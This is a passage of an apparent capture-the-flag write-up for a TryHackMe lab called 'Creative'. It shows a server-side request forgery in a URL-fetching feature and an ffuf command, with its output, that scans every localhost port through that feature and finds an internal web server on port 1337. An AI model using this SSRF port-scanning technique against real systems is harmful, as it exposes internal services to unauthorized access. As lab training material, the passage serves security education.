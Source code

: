 Testing it with `http://creative.thm/`, it returns the contents of the URL submitted.

![Web Server Port 80 Beta Creative Test](web_80_beta_creative.webp){: width="1200" height="900" }

And testing it with `http://creative.thm/doesnotexist`, it returns `Dead`.

![Web Server Port 80 Beta Dead Test](web_80_beta_dead.webp){: width="1200" height="900" }

It seems the server returns the contents of the URL if it gets a positive response and `Dead` if it gets a negative one.

Also testing `http://127.0.0.1/`, we get the contents of the page. So, there does not seem to be a filter in place preventing us from accessing services on localhost.

### Discovering the Internal Web Server

We can use this functionality to scan for internal web servers using `ffuf`.

```console
$ ffuf -u 'http://beta.creative.thm/' -d "url=http://127.0.0.1:FUZZ/" -w <(seq 1 65535) -H 'Content-Type: application/x-www-form-urlencoded' -mc all -t 100 -fs 13

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://beta.creative.thm/
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=http://127.0.0.1:FUZZ/
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: all
 :: Filter           : Response size: 13
________________________________________________

80                      [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 136ms]
1337                    [Status: 200, Size: 1143, Words: 40, Lines: 39, Duration: 137ms]
```
{: .wrap }

We discover a web server running on localhost port 1337.

Now, with the `http://127.0.0.1:1337/` payload on `http://beta.creative.thm`, we are able to get the contents of the web server.
